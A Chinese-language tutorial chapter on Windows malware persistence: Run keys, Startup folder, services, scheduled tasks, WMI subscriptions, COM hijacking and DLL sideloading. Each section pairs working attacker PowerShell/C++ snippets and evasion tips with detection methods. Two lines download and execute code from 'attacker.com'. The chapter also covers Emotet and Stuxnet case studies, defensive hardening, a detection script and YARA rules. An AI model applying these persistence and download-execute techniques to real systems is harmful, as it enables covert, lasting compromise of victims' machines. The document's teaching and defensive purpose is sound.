

# 恶意代码分析与免杀对抗（8）· 持久化技术大全

> [!abstract] TL;DR
> - 持久化是恶意代码生命周期中最关键环节，目标是在系统重启或用户操作后仍保持执行权，分为启动自动化（自启动）、后台驻留（权限维持）、隐形加载（检测规避）三层递进
> - Windows 提供数十条合法路径供程序启动/加载，每条都是攻击面：注册表 Run/RunOnce/StartupFolder、任务计划、服务、WMI、COM、DLL 侧加载、钩子、浏览器插件等，黑客乱序组合绕过单点检测
> - 持久化技术本质上是对"Windows 启动/加载流程"的深度破坏——从 bootloader 到用户程序的执行链中埋设触发点；越靠近底层（Bootkit > 驱动 > 内核 Hook > 用户态 DLL > 注册表），越难检测但越需要高权限
> - 实战检测需分层：静态扫描注册表/启动文件夹/任务计划，动态监控进程创建/注入/加载事件，内存取证查 Rootkit，网络审计识别 C2 心跳；单一工具形同虚设，需组合多源 IOC
> - 对抗的核心是理解"合法化"——用正当的 Windows 机制做坏事（Living off the Land），躲过签名/沙箱检测；防御必须从权限隔离（非 admin 不信）和行为基线（反常启动流程）入手

## 概述与定位

持久化（Persistence）是恶意代码在入侵链中的第三个阶段（Kill Chain：Reconnaissance → Weaponization → Delivery → Exploitation → **Installation** → **Command & Control** → Actions on Objectives）。如果说前置阶段是"闯进来"，那么持久化就是"赖上不走"——确保即便系统重启、用户重新登录、安全软件重启，恶意代码仍能自动恢复执行。

这个环节的重要性不言而喻：一个没有持久化机制的恶意程序，被杀掉就消失了，无法长期控制。而带有持久化的样本，往往标志着从"一次性利用"升级到"长期驻留"，从"蠕虫/蠕虫病毒"演进到"后门/木马/APT 工具"。

从防御者视角，持久化是狩猎恶意代码的重要切口：它留下的痕迹（注册表改动、启动项、计划任务、服务）往往比恶意行为本身更易被审计工具捕捉；从逆向角度，理解样本选择的持久化策略，可以反推其目标群体（高权限对象用 Bootkit，普通用户用注册表）和防御对手（绕过 AppLocker 用 COM，躲避 ETW 用驱动）。

本章穷尽 Windows 生态中所有主要的持久化路径，按"权限需求""检测难度""隐匿性""兼容性"四个维度分类讲解，并配合实战分析和对抗思路。

## 原理与机制




Windows 中"自动化执行"本质上是"系统启动或用户登录时自动触发回调"的集合。要理解持久化，先得理解 Windows 的启动和加载流程：

### Windows 启动链与加载路径

从硬件加电到用户程序运行，经历这些阶段：

1. **BootLoader** → 读入 Windows 引导程序 ntldr / bootmgr
2. **内核初始化** → 加载驱动、执行内核启动代码
3. **Session 0 启动** → System 进程、服务启动（svchost）
4. **用户登录** → 加载用户配置文件、执行登录脚本
5. **桌面环境启动** → Explorer.exe 加载，执行启动文件夹、注册表 Run 项

每个环节都有合法的"插点"：

| 阶段 | 合法插点 | 攻击面 |
|------|--------|--------|
| 驱动加载 | HKLM\System\CurrentControlSet\Services | Rootkit、驱动后门 |
| 系统服务 | 服务二进制、启动参数、依赖服务 | 恶意服务、服务劫持 |
| 用户登录 | 登录脚本、Userinit、GPO | 脚本型木马 |
| Explorer 加载 | Run、RunOnce、Startup、Shell 扩展 | 主要的用户态持久化 |
| DLL 加载 | Import Table、LoadLibrary、ShellExecute | DLL 侧加载、DLL 劫持 |
| 任务调度 | Windows Task Scheduler | 隐形定时任务 |

### 持久化的三层结构

```
第一层：引导层（Bootstrapping）
  ├─ 注册表启动项（Run/RunOnce）
  ├─ 启动文件夹（%AppData%\Microsoft\Windows\Start Menu\Programs\Startup）
  ├─ 服务（Services）
  └─ 计划任务（Task Scheduler）
  → 特点：应用最广、检测最容易、普通用户可利用

第二层：加载层（Loading）
  ├─ DLL 侧加载
  ├─ COM 对象注册
  ├─ 浏览器插件/扩展
  ├─ PowerShell Profile
  └─ Shim Database（AppCompat）
  → 特点：依赖合法程序、较隐蔽、绕过签名验证

第三层：内核层（Kernel-level）
  ├─ 驱动加载（Bootkit、Rootkit）
  ├─ WMI Event Consumer
  ├─ 内核钩子（Kernel Hook）
  └─ UEFI/固件级后门
  → 特点：需要高权限、检测最难、环境依赖强
```

持久化的成功率取决于"覆盖面"——多个机制并行，一个被清除还有备份；和"隐匿性"——看起来像系统合法行为而非恶意程序。

## 持久化路径详解与对抗矩阵

### 1. 注册表启动项（Registry Run Keys）

**原理**：Windows 启动时，ExplorerExe 和 Explorer 扩展在加载后，会按序扫描以下注册表位置并执行其中的值：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

关键区别：
- **Run**：每次登录都执行（永久）
- **RunOnce**：仅执行一次，后删除自身值（临时化、隐匿化）
- **HKLM**：系统级（所有用户）；**HKCU**：当前用户（隐蔽但当用户权限）

**实战利用**：

```powershell
# 添加注册表启动项（需管理员）
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" ^
  /v "Windows Update" ^
  /d "C:\Temp\malware.exe" /f

# 或用 PowerShell（更隐蔽，不产生 reg.exe 进程）
$RegPath = 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run'
Set-ItemProperty -Path $RegPath -Name "Windows Update" -Value "C:\Temp\malware.exe"

# 绕过方案：
# 1. 用 RunOnce，执行后自动删除
# 2. 将恶意代码包装成合法程序名（如 "Windows Update"、"OneDrive"）
# 3. 使用 rundll32.exe loader：%windir%\system32\rundll32.exe C:\Temp\lib.dll,Export
```

**检测与对抗**：

- **检测**：注册表监控工具（如 Autoruns、RegShot）直接扫描这些键；Sysmon Event ID 13（RegistryEvent）记录所有修改；`wmic startup list full` 枚举
- **对抗**：
  - 值混淆编码（如 base64、hex），配合脚本解码执行
  - 使用 `rundll32.exe` / `msiexec.exe` / `regsvcs.exe` 等 LOLBins（Living-off-the-Land Binaries），伪装成系统调用
  - 写入 RunOnce 后立即执行，完成后删除注册表值（"一次性"，取证时已消失）
  - 指向共享目录或网络路径，动态下载真实恶意代码（远端更新无需本地保存）

---

### 2. 启动文件夹（Startup Folder）

**原理**：Windows 用户登录时，Userinit.exe 会枚举以下文件夹并执行其中的快捷方式（.lnk）和脚本：

```
%AppData%\Microsoft\Windows\Start Menu\Programs\Startup
%ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup
```

**特点**：
- 无需注册表修改，直接文件系统操作（某些注册表监控工具可能漏检）
- 可以是 .lnk（快捷方式）、.bat、.cmd、.vbs、.ps1 等，灵活性强
- 取证时容易被用户清理（表面上是"清理启动项"的正常操作）

**实战利用**：

```powershell
# 创建恶意快捷方式到启动文件夹
$StartupFolder = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup"
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$StartupFolder\Windows Service.lnk")
$Shortcut.TargetPath = "C:\Temp\malware.exe"
$Shortcut.IconLocation = "%windir%\System32\svchost.exe"  # 伪装成系统图标
$Shortcut.Save()

# 或者直接放置可执行脚本
echo powershell -NoProfile -Command "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/shell')" > "$StartupFolder\update.bat"
```

**检测与对抗**：

- **检测**：
  - 文件系统监控（Sysmon Event ID 11 - FileCreate）
  - 定时扫描启动文件夹，检查文件时间戳与合法来源
  - PowerShell 脚本块日志（Event ID 4104）捕捉动态创建行为
- **对抗**：
  - 将快捷方式伪装成系统更新、驱动更新提示（图标+文件名社工）
  - 使用隐藏属性(`attrib +h`)隐藏快捷方式文件
  - 在 .lnk 的"高级"属性中设置"以管理员身份运行"，运行时静默请求 UAC 提升
  - 链接指向隐藏的共享目录 `\\attacker\share\payload.exe`（需内网或 VPN）

---

### 3. 服务注册（Windows Services）

**原理**：Windows 服务是独立的、后台常驻的进程，由 Service Control Manager（SCM）统一管理。服务配置存储在注册表：

```
HKLM\System\CurrentControlSet\Services\<ServiceName>
```

关键参数：
- `ImagePath`：服务二进制路径
- `Start`：启动类型（2=自动启动，3=手动，4=禁用）
- `DisplayName`：显示名称（可以伪装）
- `Description`：描述
- `ObjectName`：运行账户（LocalSystem、Network Service 等）

**实战利用**：

```powershell
# 创建恶意服务
sc create "Windows Update Service" ^
  binPath= "C:\Temp\malware.exe" ^
  DisplayName= "Windows Update Service" ^
  start= auto

# 或用 PowerShell（避免 sc.exe 命令行留痕）
$ServiceParams = @{
    Name = "WinUpdateSvc"
    BinaryPathName = "C:\Temp\backdoor.exe"
    DisplayName = "Windows Update Service"
    StartupType = "Automatic"
    Description = "Provides Windows update notifications"
}
New-Service @ServiceParams

# 启动服务
net start "WinUpdateSvc"
# 或
Start-Service -Name "WinUpdateSvc"
```

**隐蔽技巧**：

```powershell
# 1. 注册服务但不启动它，稍后由其他机制触发
# 2. 使用 DependOnService 设置依赖，让合法服务启动时自动启动恶意服务
reg add "HKLM\System\CurrentControlSet\Services\NewService" ^
  /v "DependOnService" /d "EventLog" /f

# 3. 将二进制放到合法系统文件夹，命名为常见 Windows 服务名
# 如 %windir%\System32\Crypto32Svc.exe（而非官方 CryptoSvc）

# 4. 注册服务但设置 Start=3（手动），配合计划任务定时启动
```

**检测与对抗**：

- **检测**：
  - `Get-Service | Where {$_.StartType -eq 'Automatic'}` 枚举自启服务
  - `wmic service list full` 列举所有服务及二进制路径
  - 事件查看器：System 日志的服务启动/停止事件（Event ID 7045 新服务）
  - Autoruns、Process Explorer 实时监控
- **对抗**：
  - 使用 DependOnService，让合法服务的启动触发恶意服务（隐形依赖链）
  - 二进制在启动后立即删除自身或修改权限（取证难）
  - 服务名和 DisplayName 模仿微软官方服务（如 "WinDefend"、"Spooler"）
  - 将服务 ImagePath 指向无害脚本（.bat）或合法二进制，内部通过参数调用恶意 DLL
  - 使用加密的服务二进制，解密后驻留内存（避免磁盘特征）

---

### 4. 计划任务（Task Scheduler）

**原理**：Windows 任务计划器允许管理员（或普通用户）定时或事件触发执行程序。任务配置存储为 XML 文件：

```
C:\Windows\System32\Tasks\
C:\Windows\SysWOW64\Tasks\
```

关键元素：
- `<Trigger>`：触发条件（时间、系统启动、用户登录、日志事件等）
- `<Action>`：执行的程序和参数
- `<Principal>`：运行账户和权限级别
- `<RunLevel>`：是否需要提升权限

**实战利用**：

```powershell
# 创建计划任务（登录时执行）
$TaskName = "Windows Maintenance"
$Action = New-ScheduledTaskAction -Execute "C:\Temp\malware.exe"
$Trigger = New-ScheduledTaskTrigger -AtLogOn
$Principal = New-ScheduledTaskPrincipal -UserId "$env:UserDomain\$env:UserName" -LogonType Interactive
Register-ScheduledTask -TaskName $TaskName -Action $Action -Trigger $Trigger -Principal $Principal

# 使用系统启动触发（SYSTEM 权限）
$Trigger = New-ScheduledTaskTrigger -AtStartup
$Principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest
Register-ScheduledTask -TaskName "System Cleanup" -Action $Action -Trigger $Trigger -Principal $Principal -Force

# 使用事件触发（更隐蔽）
$Trigger = New-ScheduledTaskTrigger -CimTriggerType CimTriggerTypeEvent `
  -CimTriggerQuery "SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName='explorer.exe'"
Register-ScheduledTask -TaskName "Explorer Monitor" -Action $Action -Trigger $Trigger
```

**高级隐蔽技巧**：

```powershell
# 1. 使用延迟触发（Delay），系统启动后 5-30 分钟后执行（躲避初期审查）
# 2. 使用 <Repetition> 周期性运行，参数化启用/禁用（假如被发现可快速关闭）
# 3. 任务名混淆编码或深层子目录 C:\Windows\System32\Tasks\Microsoft\Windows\...\HiddenTask
# 4. 使用 SYSTEM 权限但指向非标准二进制（避免合法程序被误认）
# 5. 执行 PowerShell 脚本而非 exe，脚本动态下载真实负载（本地无恶意代码）
```

**检测与对抗**：

- **检测**：
  - `Get-ScheduledTask | Get-ScheduledTaskInfo` 列举所有计划任务
  - `tasklist /v /fo csv` 查看当前运行的任务
  - 解析 C:\Windows\System32\Tasks\ 下的 XML 文件，查找异常执行路径
  - Sysmon Event ID 1 捕捉 schtasks.exe 或 PowerShell ScheduledTask 命令
  - Event Viewer - Application and Services Logs\Microsoft\Windows\TaskScheduler
- **对抗**：
  - 任务名深藏在系统默认目录中（微软任务的命名风格）
  - 触发条件设置为极少见事件（如特定日志事件），使审计困难
  - 执行路径指向合法程序配合参数（如 `svchost.exe -k malware`，需监控参数）
  - 任务动作使用 base64 编码的 PowerShell 脚本，解码后从网络加载（本地无明文恶意代码）
  - 禁用任务后仍保留在 Tasks\ 文件夹，躲过"运行中的任务"检查

---

### 5. WMI Event Subscription（WMI 事件订阅）

**原理**：Windows Management Instrumentation（WMI）允许订阅系统事件，并在事件发生时自动执行动作。这种方式完全无文件、无进程，驻留在 WMI Repository 中。

```
\ \.  \root\subscription\
  ├─ __EventFilter（定义监听条件）
  ├─ __EventConsumer（定义执行动作）
  └─ __FilterToConsumerBinding（绑定两者）
```

WMI 订阅类型：
- `ActiveScriptEventConsumer`：执行 VBScript 或 JScript
- `CommandLineEventConsumer`：执行命令行程序
- `LogFileEventConsumer`：写日志

触发条件：
- `ProcessStartTrace`：进程启动
- `ConsumerDefragmentation`：定时器事件
- `__IntervalTimerInstruction`：固定时间间隔

**实战利用**：

```powershell
# 创建 WMI Event Filter（监听 explorer.exe 启动）
$FilterArgs = @{
    EventNamespace = 'root\cimv2'
    Name = 'WindowsExplorerStartFilter'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName='explorer.exe'"
}
$Filter = Set-WmiInstance -Class __EventFilter -Arguments $FilterArgs

# 创建 Event Consumer（执行恶意代码）
$ConsumerArgs = @{
    Name = 'WindowsExplorerConsumer'
    CommandLineTemplate = 'C:\Temp\malware.exe'
}
$Consumer = Set-WmiInstance -Class CommandLineEventConsumer -Arguments $ConsumerArgs

# 绑定 Filter 和 Consumer
$BindingArgs = @{
    Filter = $Filter
    Consumer = $Consumer
}
Set-WmiInstance -Class __FilterToConsumerBinding -Arguments $BindingArgs
```

**隐蔽变体**：

```powershell
# 1. 使用 ActiveScriptEventConsumer 执行 VB 脚本（无 exe，直接内存执行）
$Script = @"
Dim oShell
Set oShell = CreateObject("WScript.Shell")
oShell.Run "powershell -Command IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/payload')", 0, true
"@

$ConsumerArgs = @{
    Name = 'ScriptConsumer'
    ScriptingEngine = 'VBScript'
    ScriptText = $Script
}
Set-WmiInstance -Class ActiveScriptEventConsumer -Arguments $ConsumerArgs

# 2. 使用 __IntervalTimerInstruction 触发器（每隔固定时间执行）
$FilterArgs = @{
    Name = 'TimerFilter'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __IntervalTimerInstruction WHERE TimerID='Interval_5Min' AND GroupWithin=300"
}
```

**检测与对抗**：

- **检测**：
  - WMI 事件订阅列在 CIM 存储库中，可用 `Get-WmiObject -Namespace root\subscription -Class __EventFilter`
  - 使用 Autoruns 的"WMI"标签页
  - PowerShell 脚本：`Get-WmiObject -Namespace root\subscription -Class __EventFilter | Select Name, Query`
  - 监控 WMI 存储库文件：`%windir%\System32\wbem\Repository\OBJECTS.DATA`（二进制格式）
- **对抗**：
  - 完全无文件（只存在 WMI 存储库），不产生磁盘痕迹
  - 订阅名称混淆（如伪装成微软的 "Windows Diagnostic Policy Service"）
  - 查询条件设置为极少触发（如只在特定进程和时间同时满足）
  - 动态创建和销毁（执行完立即删除订阅），取证时已消失
  - 加密 Consumer 的执行内容（VBScript 中使用 base64 解码执行）

---

### 6. COM 对象劫持（COM Hijacking）

**原理**：COM（组件对象模型）是 Windows 中加载共享库的机制。应用程序通过 CLSID（类标识）在注册表中查找对应的 DLL，然后加载执行。如果攻击者在注册表中篡改或注入 COM 对象的指向，就可以劫持系统或应用程序的加载流程。

```
HKCU/HKLM\Software\Classes\CLSID\{GUID}\
  ├─ InprocServer32 → C:\Path\To\DLL
  └─ LocalServer32 → C:\Path\To\EXE
```

常见被劫持的 COM 对象：
- `{6d4c7973-0794-11d4-816d-0080ad46c603}` (Messenger Skype)
- `{B196B287-BAB4-101A-B69C-00AA00341D07}` (File Open Dialog)

**实战利用**：

```powershell
# 注册恶意 COM 对象（创建新的 CLSID）
$GUID = "{12345678-1234-1234-1234-123456789012}"
$DLLPath = "C:\Temp\malicious.dll"

# 创建 CLSID 注册表项
reg add "HKCU\Software\Classes\CLSID\$GUID" /v "" /d "Malicious COM Object"
reg add "HKCU\Software\Classes\CLSID\$GUID\InprocServer32" /v "" /d "$DLLPath"
reg add "HKCU\Software\Classes\CLSID\$GUID\InprocServer32" /v "ThreadingModel" /d "Apartment"

# 劫持已有的系统 COM 对象
# 例如劫持 Windows 更新 COM 接口（假设 CLSID 为 {GUID-HERE}）
$TargetGUID = "{6ef4e118-e7be-43c6-b053-ea1471abeaef}"
reg add "HKCU\Software\Classes\CLSID\$TargetGUID\InprocServer32" ^
  /v "" /d "C:\Temp\malware.dll" /f

# 当目标程序加载该 COM 对象时，会加载我们的 DLL 而非原始 DLL
```

**高级隐蔽**：

```powershell
# 1. 优先级：用户 HKCU 中的 CLSID 优先于 HKLM，攻击者只需修改 HKCU
# 2. 利用现有 ActiveX 控件（如 Internet Explorer 的 HTML 渲染组件）
# 3. 劫持 Shell 扩展相关 CLSID，在文件浏览器加载文件时自动执行
# 4. 注入到特定应用程序的 COM 初始化代码，隐蔽性强
```

**检测与对抗**：

- **检测**：
  - 对比 HKCU 和 HKLM 中的 CLSID 注册，查找不一致
  - 监控新创建的 CLSID（Sysmon Event ID 13）
  - 验证 InprocServer32 指向的 DLL 签名和来源
  - 使用 OleView 工具审查已注册的 COM 对象
- **对抗**：
  - 劫持系统频繁使用的 COM 对象，增加执行机会
  - DLL 使用 COM 隐藏导出表，只留下必要的 DllGetClassObject 等接口
  - 在 DLL 加载时进行反虚拟机检查，非目标环境时返回正常对象
  - 使用 DLL 侧加载技术加载真实 DLL，在其初始化时注入恶意代码

---

### 7. DLL 侧加载与 DLL 劫持（DLL Sideloading / DLL Hijacking）

**原理**：Windows 程序通过 Import Address Table（IAT）动态链接 DLL，加载时按特定搜索顺序查找 DLL：

```
1. 程序所在目录（同级目录）
2. 系统目录（C:\Windows\System32）
3. 系统 16 位目录（C:\Windows\System）
4. Windows 目录
5. PATH 环境变量列出的目录
```

攻击者可以：
- **DLL 侧加载**：将恶意 DLL 与合法程序放在同一目录，导致程序加载恶意 DLL 而非系统 DLL
- **DLL 劫持**：在 PATH 早期位置放置恶意 DLL，当程序从其他目录加载时被拦截

**实战利用**：

```
场景 1：侧加载
原始程序目录结构：
  C:\Program Files\SomeApp\
    ├─ app.exe（依赖 mscoree.dll）
    └─ mscoree.dll（合法）

攻击者放置恶意 DLL：
  C:\Program Files\SomeApp\
    └─ version.dll（恶意，被 app.exe 加载）

当 app.exe 启动时，会先在自己的目录查找依赖，加载恶意 version.dll。
```

**代码示例**：

```cpp
// 恶意 version.dll (Visual C++)
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    if (ul_reason_for_call == DLL_PROCESS_ATTACH) {
        // 执行恶意代码
        WinExec("C:\\Temp\\malware.exe", SW_HIDE);
        
        // 加载真实的 version.dll 并代理其导出函数
        // 这样使主程序继续正常运行，隐蔽性更强
        LoadLibraryA("C:\\Windows\\System32\\version.dll");
    }
    return TRUE;
}

// 导出被劫持的函数（使原程序继续正常加载）
extern "C" DWORD __stdcall GetFileVersionInfoSize(LPCSTR lpFilename, LPDWORD lpdwHandle) {
    typedef DWORD(__stdcall *pGetFileVersionInfoSize)(LPCSTR, LPDWORD);
    HMODULE hRealDll = LoadLibraryA("C:\\Windows\\System32\\version.dll");
    pGetFileVersionInfoSize RealFunc = (pGetFileVersionInfoSize)GetProcAddress(hRealDll, "GetFileVersionInfoSize");
    return RealFunc(lpFilename, lpdwHandle);
}
```

**隐蔽策略**：

```powershell
# 1. 目标高频启动的合法程序（如 Explorer、Notepad）
# 2. DLL 名称选择系统 DLL（如 version.dll、ole32.dll），易被忽视
# 3. 恶意代码执行后调用原始 DLL 函数（FordwardExports），伪装成正常加载
# 4. 放置在 AppData 或 ProgramFiles，权限限制，普通工具难以检测
# 5. 启用延迟加载（Delay Load），在首次调用时执行恶意代码
```

**检测与对抗**：

- **检测**：
  - 监控 DLL 加载事件（Sysmon Event ID 7，或 ETW - Image Load）
  - 检验 DLL 签名和发布者（合法的 version.dll 签名来自 Microsoft）
  - 比对系统 DLL 的哈希和官方版本
  - 使用 Dependency Walker 审查程序的 DLL 依赖
  - 监控可疑目录（如 AppData）中的 DLL 创建
- **对抗**：
  - 选择合法程序多次启动（Explorer、SearchIndexer）或由系统调用的程序
  - 使用代理导出技术（forwarding），原程序继续正常运行
  - 将真实代码放入内存（内存中加载原始 DLL），避免磁盘痕迹
  - 动态生成 DLL（编译时不存在源码），运行时注入
  - 使用受信签名（证书盗窃或合法证书滥用）

---

### 8. 其他持久化技术快速索引

| 技术 | 机制 | 权限 | 隐蔽性 | 检测难度 |
|------|------|------|--------|---------|
| **浏览器扩展/插件** | 浏览器启动时加载恶意扩展 | 用户 | 中 | 中 |
| **PowerShell Profile** | `$PROFILE` 脚本自动执行 | 用户 | 高 | 中 |
| **Shim Database（AppCompat）** | Shim 引擎拦截 API 调用 | 用户 | 很高 | 高 |
| **BITS 任务** | 后台智能传输服务定时执行 | 用户 | 中 | 中 |
| **快捷方式（.lnk）** | 包含执行命令的快捷方式 | 用户 | 中 | 低 |
| **驱动加载（Bootkit）** | UEFI/MBR 加载恶意驱动 | 系统 | 很高 | 很高 |
| **内核 Hook** | 钩住系统调用/API | 系统 | 很高 | 很高 |
| **打印机队列** | 打印机驱动注入代码 | 系统 | 高 | 高 |
| **文件关联** | 劫持文件类型处理程序 | 用户 | 中 | 中 |
| **搜索索引器** | Windows Search 索引器插件 | 系统 | 中 | 中 |

这些技术细节参见第 [[32.hooks|32.hooks]] 系列。

---

## 工具视角与实战

### 检测与审计工具

**Autoruns（Sysinternals）**：最强大的持久化检测工具，实时扫描所有启动位置：
```
下载：https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns
用法：Autoruns.exe > report.csv
     导入 Excel，按"Publisher"排序，找"Verify Result=Unable to verify"的项
```

**Sysmon + Event Log Analysis**：
```powershell
# 安装 Sysmon（捕捉进程、DLL 加载、注册表修改）
.\Sysmon.exe -i -l

# 查询注册表修改事件（Event ID 13）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=13} | 
  Where-Object {$_.Message -match 'Run|Startup|Services'} | Select-Object -First 20

# 查询进程创建（Event ID 1）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} | 
  Where-Object {$_.Message -match 'schtasks|reg add|sc create'} | Select-Object TimeCreated, Message
```

**Velociraptor**：分布式审计工具，可大规模扫描多台主机：
```yaml
name: Windows.Detection.Persistence
description: 全局持久化检测
sources:
  - name: RegistryRun
    query: |
      SELECT Name, FullPath, Data FROM glob(
        globs='HKEY_LOCAL_MACHINE/Software/Microsoft/Windows/CurrentVersion/Run/*',
        accessor='registry')
  - name: TaskScheduler
    query: |
      SELECT Name, Path, Arguments FROM glob(
        globs='C:/Windows/System32/Tasks/**',
        accessor='file')
```

**PowerShell 脚本化检测**：
```powershell
# 综合持久化检测脚本
$PersistenceIndicators = @()

# 检查注册表 Run 键
$RunKeys = Get-Item -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' -ErrorAction SilentlyContinue
$RunKeys.GetValueNames() | ForEach-Object {
    $value = $RunKeys.GetValue($_)
    if ($value -notmatch 'Windows|Microsoft|Intel|NVIDIA') {
        $PersistenceIndicators += @{Type='RegistryRun'; Name=$_; Path=$value}
    }
}

# 检查计划任务
$Tasks = Get-ScheduledTask | Where-Object {$_.State -eq 'Ready'}
$Tasks | ForEach-Object {
    if ($_.TaskPath -match 'Custom|Unknown' -or $_.Description -match 'Update|Service') {
        $PersistenceIndicators += @{Type='ScheduledTask'; Name=$_.TaskName; Path=$_.TaskPath}
    }
}

# 检查服务
$Services = Get-Service | Where-Object {$_.StartType -eq 'Automatic'}
$Services | ForEach-Object {
    $ImagePath = (Get-ItemProperty -Path "HKLM:\System\CurrentControlSet\Services\$($_.Name)" -ErrorAction SilentlyContinue).ImagePath
    if ($ImagePath -notmatch 'System32|SysWOW64') {
        $PersistenceIndicators += @{Type='Service'; Name=$_.Name; Path=$ImagePath}
    }
}

# 输出报告
$PersistenceIndicators | Format-Table -AutoSize
```

### 实战案例分析

**案例 1：Emotet 银行木马的多层持久化**

Emotet 因其多功能模块和强持久化而臭名昭著，采用的持久化链：

```
1. 初始执行（Delivery 阶段）
   恶意邮件附件 → explorer.exe（伪装 Word 文档）

2. 第一层持久化（用户态）
   ├─ 注册表 Run 项：HKCU\Software\Microsoft\Windows\CurrentVersion\Run
   │  值：随机名（如 "GoogleUpdate"）→ C:\AppData\Local\Temp\<random>.exe
   │  特点：普通用户可写，系统重启自动执行
   └─ 启动文件夹：%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\<random>.lnk
      快捷方式目标：C:\Users\<user>\AppData\Local\<random>\malware.exe
      伪装：图标替换为合法应用图标

3. 第二层持久化（进程注入）
   运行的 malware.exe → 注入到 explorer.exe
   后续操作：
   - 定时从 C2 下载更新（encrypted payload）
   - 感染其他磁盘上的 exe 文件（蠕虫传播）
   - 侦测分析环境（虚拟机检测）

4. 第三层持久化（WMI Event）
   若被杀毒软件删除注册表/启动项，WMI 订阅仍会自动重建它们
   - Filter：explorer.exe 启动时触发
   - Action：重新写入注册表 Run 项或放回启动文件夹
   相当于"自愈"机制

5. 对抗取证
   - 部分二进制放在隐藏目录（attrib +h）
   - 启用磁盘加密，阻止离线取证
   - 感染 MBR/Bootkit（某些变种），维持 SYSTEM 权限
```

**案例 2：Stuxnet 的驱动级持久化**

Stuxnet 展示了最高级的持久化技术——从固件到驱动再到用户态的完整链条：

```
硬件层：
  └─ UEFI/BIOS 后门（对应 Equation Group）

驱动层（Stuxnet 核心）：
  ├─ 注册虚拟驱动（ntkrnlpa.sys 的改版）
  ├─ Hook ZwQueryDirectoryFile、ZwQueryAttributesFile
  │  目的：隐藏 .lnk 文件，避免被人工发现
  └─ Hook 文件系统调用，拦截对 Siemens STEP 7 工程文件的访问
     目的：修改 PLC 参数，但隐藏修改痕迹

用户态（DLL 注入）：
  └─ 注入到 svchost.exe、System 等系统进程
     执行 PLC 攻击逻辑，通过驱动的 Hook 隐蔽操作

持久化机制：
  1. 驱动开机自动加载（Services 注册表）
  2. 驱动加载时恢复被删除的 DLL（自愈）
  3. 使用数字签名（盗取的赛门铁克证书），绕过签名验证
  4. 感染 USB 设备（worm.exe），跨域传播
```

---

## 安全性与正确使用

> [!caution]
> 持久化技术本身中立，但在非授权环境中使用构成犯罪。以下内容仅用于：
> - 自有设备/授权环境的安全研究
> - CTF 竞赛、渗透测试靶场、实验室环境
> - 安全防御知识积累
> 
> **严禁将这些技术用于**：
> - 入侵他人或企业系统
> - 植入恶意程序进行勒索、盗窃、监视
> - 绕过商业授权（如通过注册表修改激活软件）
> - 为真实目标提供武器化配方
>
> 违反将承担刑事责任（《网络安全法》《刑法》第 285 条、286 条）。

### 防御体系构建

**原则**：持久化防御不是单点防守，而是分层堡垒。一条路被堵，还有多重检测触发。

**第一层：权限隔离**
```powershell
# 日常使用非管理员账户
# 管理员操作需要 UAC 提升
# 敏感服务运行在低权限账户（LocalService、NetworkService）

# 检查当前权限
[Security.Principal.WindowsIdentity]::GetCurrent().Groups -contains 'S-1-5-32-544'
```

**第二层：注册表监控**
```powershell
# Windows Defender 高级安全配置
Set-MpPreference -HighThreatDefaultAction Quarantine
Set-MpPreference -ModerateThreatDefaultAction Quarantine

# 启用实时保护和脚本扫描
Set-MpPreference -DisableRealtimeMonitoring $False
Set-MpPreference -DisableScriptScanning $False
```

**第三层：行为审计**
```powershell
# 启用 Sysmon 监控
# 配置审计策略
auditpol /set /category:"Process Creation" /success:enable
auditpol /set /category:"Registry" /success:enable

# 启用 PowerShell 脚本块日志
reg add "HKLM\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" /v "EnableScriptBlockLogging" /d 1
```

**第四层：文件完整性检验**
```powershell
# 定期备份并哈希关键文件
$CriticalFiles = @(
    'C:\Windows\System32\svchost.exe',
    'C:\Windows\System32\lsass.exe',
    'C:\Windows\explorer.exe'
)
$CriticalFiles | ForEach-Object {
    $hash = (Get-FileHash $_).Hash
    "$(Get-Date): $_ = $hash" | Out-File -Append hash_baseline.txt
}
```

**第五层：YARA 规则检测**
```yara
rule PersistenceRegistryRun {
    strings:
        $reg1 = "Software\\Microsoft\\Windows\\CurrentVersion\\Run"
        $reg2 = "Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce"
    condition:
        any of them
}

rule SuspiciousScheduledTask {
    strings:
        $vbs = "CreateObject" nocase
        $powershell = "powershell" nocase
        $path = "C:\\Temp\\" nocase
    condition:
        ($vbs or $powershell) and $path
}
```

### 应急响应与取证

**快速检查清单**：
```bash
# 1. 列举自启项
wmic startup list full
